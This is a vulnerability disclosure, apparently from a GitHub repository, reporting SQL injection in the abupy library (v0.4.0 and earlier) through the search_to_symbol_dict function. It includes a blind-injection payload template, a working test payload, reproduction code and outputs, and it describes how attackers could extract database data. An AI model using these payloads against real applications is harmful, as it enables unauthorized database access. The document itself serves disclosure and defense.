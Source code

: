 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {CODE YOU WANNA EXEC, RETURN TRUE OR FALSE} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```
abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users and programmers to call this function, proof: https://github.com/bbfamily/abu/blob/master/abupy/MarketBu/ABuSymbol.py -> line: 200 ↓ 
```py
    symbol搜索对外接口，全匹配symbol code，拼音匹配symbol，别名匹配，模糊匹配公司名称，产品名称等信息
    eg：
        in：
        search_to_symbol_dict('黄金')
        out：
        {'002155': '湖南黄金',
         '600489': '中金黄金',
         '600547': '山东黄金',
         '600766': '园城黄金',
         '600988': '赤峰黄金',
         'ABX': '巴里克黄金',
         'AU0': '黄金',
         'DGL': '黄金基金-PowerShares',
         'DGLD': '黄金3X做空-VelocityShares',
         'DGP': '黄金2X做多-DB',
         'DGZ': '黄金做空-PowerShares',
         'DZZ': '黄金2X做空-DB',
         'EGO': '埃尔拉多黄金公司',
         'GC': '纽约黄金',
         'GEUR': 'Gartman欧元黄金ETF-AdvisorShares ',
         'GLD': '黄金ETF-SPDR',
         'GLL': '黄金2X做空-ProShares',
         'GYEN': 'Gartman日元黄金ETF-AdvisorShares',
         'HMY': '哈莫尼黄金',
         'IAU': '黄金ETF-iShares',
         'KGC': '金罗斯黄金',
         'LIHR': '利希尔黄金',
         'PRME': '全球黄金地段房地产ETF-First Trust Heitman',
         'RGLD': '皇家黄金',
         'UGL': '黄金2x做多-ProShares',
         'UGLD': '黄金3X做多-VelocityShares'}
    :param search: eg：'黄金'， '58'
    :param fast_mode: 是否尽快匹配，速度优先模式
    :return: symbol dict
```


Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`

proved the result is determined by payload  
proved sql code execution  

POC: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
